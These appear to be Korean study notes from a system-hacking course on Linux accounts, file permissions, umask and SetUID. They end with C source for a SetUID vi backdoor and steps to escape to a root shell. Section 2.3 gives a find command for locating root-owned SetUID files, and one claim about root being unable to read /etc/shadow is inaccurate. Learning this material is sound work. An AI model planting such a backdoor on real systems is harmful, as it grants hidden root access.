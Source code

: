 # 1. 리눅스의 계정과 권한
- 로그인
	username과 password로 **인증**을 하고, 그에 따른 **인가**를 받아서 시스템에 접근할 수 있도록 허가를 받는 과정.
- 시스템 해킹
	일반 사용자 권한 이상의 권한을 획득하는 절차
- 리눅스의 계정과 권한 종류 -> root라는 관리자 or 일반 사용자 계정
## 1.1 `/etc/passwd` 파일
- 계정 목록이 저장된 파일
![[Pasted image 20251014230904.png|500]]
1. 사용자 계정
2. 패스워드를 암호화해 `/etc/shadow` 파일에 저장했음을 나타냄
3. UID
4. GID
5. 사용자 이름, can be anything
6. 사용자 홈 디렉터리, root -> `/root` or 일반 사용자 -> `/home` 하위
7. 사용자 셸, default bash
## 1.2 ls -al 명령어 형식
![[Pasted image 20251014231555.png|400]]
1. 파일 속성 및 권한 표기
2. 해당 파일에 링크된 파일의 수
3. 파일 생성자 계정
4. 생성자 계정 그룹
### 1.2.1 파일 속성

| 문자  | 파일 속성             |
| --- | ----------------- |
| d   | 디렉터리 파일           |
| -   | 일반 정규 파일          |
| l   | 링크된 파일            |
| c   | 버퍼에 저장되지 않은 특수 파일 |
| b   | 버퍼링된 특수 파일        |
| s   | 소켓 파일             |
| p   | 파이프 파일            |

### 1.2.2 파일 권한
- 파일 소유자, 그룹, Others 별로 권한이 나뉨. ex) 위 이미지에선 rwx, r-x, r-x로 나뉨.
- r: 4(binary 100)
- w: 2(binary 10)
- x: 1(binary 1)
## 1.3 Umask 
- `umask`는 새로 생성되는 파일이나 디렉터리의 **기본 권한에서 제한할 권한을 지정하는 값**이다.  
- `/etc/profile`이나 `.bashrc`에서 설정된다.
- ex) umask가 `022`이면 파일은 `644`, 디렉터리는 `755` 권한으로 만들어지며, 보통 
## 1.4 파일 권한 수정 명령
- `chmod 777 c.txt` 생성된 파일의 권한 수정
- `chown root c.txt` & `chgrp root c.txt` 파일의 소유자와 그룹 수정
# 2. SetUID
- 실행파일에 붙일 수 있는 특수 권한. 해당 권한이 있는 파일을 실행하면 프로세스의 EUID가 해당 파일 소유자의 UID로 바뀜.
- -> setuid를 사용해서 합법적인 권한 상승을 할 수 있다. 
- RUID, RGID, real...
- EUID EGID, effective...
- 일반적으로 처음 로그인 시, RUID <> EUID RGID <> EGID는 동일.
- 그러나 SetUID 비트가 설정된 프로그램 실행 시 불일치.
## 2.1 `/etc/shadow`
- 암호화된 password는 `/etc/shadow`에 저장됨.
- `/etc/shadow` 권한 -> `000` 따라서 root도 읽기 권한이 없지만, 소유자가 root라서 수정 및 접근은 가능.
- `passwd` 명령 실행 시 -> RUID 500, EUID 0
- `passwd` 명령 종료 시 -> RUID 500, EUID 500
	-> 이것이 SetUID 효과
## 2.2 파일 권한
- `passwd` 명령은 `rws r-x r-x` 권한. 여기서 s가 SetUID를 가리킴.
- SetUID 4000, SetGID 2000
## 2.3 기타
- `find / -user root -perm +4000`: 파일 소유자가 root with SetUID인 파일을 찾는 명령어
# 3. SetUID 백도어
```c
// vibackdoor.
#include <stdio.h>
main() {
	setuid(0);
	setgid(0);
	system("/bin/vi");
}
```
1. 위와 같은 파일을 컴파일 후 `chmod 4755 vibackdoor`로 SetUID 설정.
2. 그리고 파일 실행 후 < esc > `:!/bin/bash` 실행.
- 일반 유저 계정의 셸에서 root 소유의 vi editor 실행. -> SetUID를 통해 EUID(0) -> `setuid(0); setgid(0);` 
- -> root 권한을 가진 셸 획득